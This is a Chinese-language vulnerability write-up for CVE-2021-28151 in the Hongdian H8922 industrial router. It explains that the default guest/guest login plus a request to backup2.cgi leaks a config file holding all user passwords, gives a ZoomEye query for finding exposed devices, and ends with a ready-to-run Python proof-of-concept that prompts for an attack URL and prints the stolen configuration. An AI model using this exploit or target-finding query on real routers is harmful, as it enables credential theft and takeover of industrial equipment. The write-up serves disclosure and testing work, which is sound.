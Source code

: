 # 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151

## 漏洞描述

宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 backup2.cgi 文件中

![](./images/202202140921362.png)

分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件

![](./images/202202140921479.png)

其中配置文件中是含有所有用户密码以及敏感配置信息的

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202140921653.png)